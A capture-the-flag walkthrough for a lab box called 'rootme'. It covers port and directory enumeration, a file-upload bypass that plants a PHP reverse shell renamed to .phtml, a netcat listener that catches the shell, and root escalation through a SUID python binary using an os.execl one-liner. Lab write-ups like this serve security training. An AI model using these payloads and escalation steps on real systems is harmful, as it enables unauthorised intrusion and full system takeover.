 Target: 10.10.255.188 

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.255.188   

Nmap scan report for 10.10.255.188
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.255.188/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

checking index

![/index.php](rootme1.png)

checking /panel

![/panel](rootme2.png)


### Findings:Looking for attack vectors

In /panel files can be uploaded with restrictions and in /uploads uploaded files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.phtml
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file in /uploads

![/uploads](rootme3.png)


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@rootme:/usr/bin$ cd /var/www

www-data@rootme:/var/www$ ls

html  user.txt

www-data@rootme:/var/www$ cat user.txt  

<redacted>
```


## Priv Escalations:

enumerating SUID
```
www-data@rootme:/var/www$ find / -perm -u=s -type f 2> /dev/null

<snip>                                                                       
/usr/bin/traceroute6.iputils                                                                                       
/usr/bin/newuidmap                                                                                                 
/usr/bin/newgidmap                                                                                                 
/usr/bin/chsh                                                                                                      
/usr/bin/python                                                                                                    
/usr/bin/at                                                                                                        
/usr/bin/chfn                                                                                                      
/usr/bin/gpasswd                                                                                                   
/usr/bin/sudo                                                                                                      
/usr/bin/newgrp                                                                                                    
/usr/bin/passwd                                                                                                    
/usr/bin/pkexec                                                                                                    
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

exploiting python SUID
```
www-data@rootme/var/www: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
# id

uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

```
# cat /root/root.txt

<redacted>
```
